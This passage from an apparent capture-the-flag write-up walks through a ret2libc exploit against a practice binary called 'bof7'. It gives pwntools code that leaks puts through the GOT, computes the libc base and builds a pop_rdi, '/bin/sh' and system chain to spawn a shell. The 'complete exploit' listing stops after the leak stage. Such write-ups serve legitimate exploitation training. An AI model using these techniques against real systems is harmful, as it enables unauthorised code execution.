 ![alt text](/images/image-10-2.png)

```
libc_leak = u64(p.recv(6).ljust(8, b'\x00'))
log.info("Leak libc: " + hex(libc_leak))
libc.address = libc_leak - 0x87bd0
log.info("Libc base: " + hex(libc.address))
```

To find the libc base, we use the leaked address subtract the base address while debugging to find the offset of `0x87bd0`. So we get libc base:

![alt text](images/image-11-2.png)

When we get the libc base, we get the address of the `system` function and the string `'/bin/sh'` in libc. Final step, get shell:
```
payload  = b'A' * offset + p64(pop_rdi)
payload += p64( next(libc.search('/bin/sh'))) + p64(libc.sym.system)
sl(payload)
```
We have a complete exploit:
```
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof7', checksec=False)
libc = exe.libc
context.binary = exe

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)
sln = lambda msg, num: sla(msg, str(num).encode())
sn = lambda msg, num: sa(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)
# GDB()

### LEAK LIBC ###
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
```